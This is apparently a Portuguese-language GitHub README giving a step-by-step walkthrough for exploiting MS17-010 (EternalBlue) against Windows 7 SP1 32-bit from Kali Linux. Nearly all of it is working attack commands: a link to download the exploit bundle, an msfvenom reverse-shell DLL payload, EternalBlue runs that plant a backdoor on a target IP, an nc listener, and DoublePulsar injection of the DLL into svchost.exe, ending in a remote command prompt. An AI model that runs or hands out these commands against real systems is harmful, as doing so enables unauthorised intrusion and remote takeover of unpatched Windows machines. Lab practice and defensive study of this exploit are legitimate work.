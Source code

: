 # MS17-010
Explorar Windows 7 Ultimate 7601 Service Pack 1 (32 bits) usando Kali Linux.

#

### Preparando a máquina atacante:
Adicione a arquitetura i386 (para computadores 32 bits) no repositório.
```
dpkg --add-architecture i386
```
```
apt-get update
```
<br>

Realize a instalação dos pacotes libwine, wine, wine32 e winetricks.
```
apt-get install libwine wine wine32 winetricks
```
<br>

Após a instalação certifique-se que o **Wine** esteja instalado, em seguida execute o comando **exit** para sair do **Wine**.
```
wine cmd
```
<br>

Realize o download do exploit, descompacte o arquivo ms17-010.tar.gz.
<br>

https://github.com/caique-garbim/MS17-010/raw/main/ms17-010.tar.gz
```
tar xf ms17-010.tar.gz
```
```
cd ms17-010/deps/
```
### Exploração
Gerando payload reverse shell non-staged com **msfvenom**
```
msfvenom -p windows/shell_reverse_tcp LHOST=172.20.1.53 LPORT=8080 -f dll > shell.dll
```
- IP da máquina atacante: 172.20.1.53
- Porta que irá receber a conexão reversa: 8080
<br>

Instalando backdoor no servidor alvo com EternalBlue:
```
cp Eternalblue-2.2.0.Skeleton.xml Eternalblue-2.2.0.xml
```
```
wine Eternalblue-2.2.0.exe --TargetIp 172.16.1.145 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt
```
- IP do servidor alvo: 172.16.1.145
<br>

Preparando a máquina atacante para receber a conexão reversa:
```
rlwrap nc -vnlp 8080
```
<br>

Enviando shellcode para injetar DLL com DoublePulsar:
```
wine Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 172.16.1.145 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll
```
- IP do servidor alvo: 172.16.1.145
<br>
 
Observe que a conexão reversa foi estabelecida e foi obtido acesso ao prompt de comandos do Windows:
![image](https://user-images.githubusercontent.com/76706456/172243037-3162bf1f-c6ad-45d6-a841-f9cd5cbc5c1b.png)
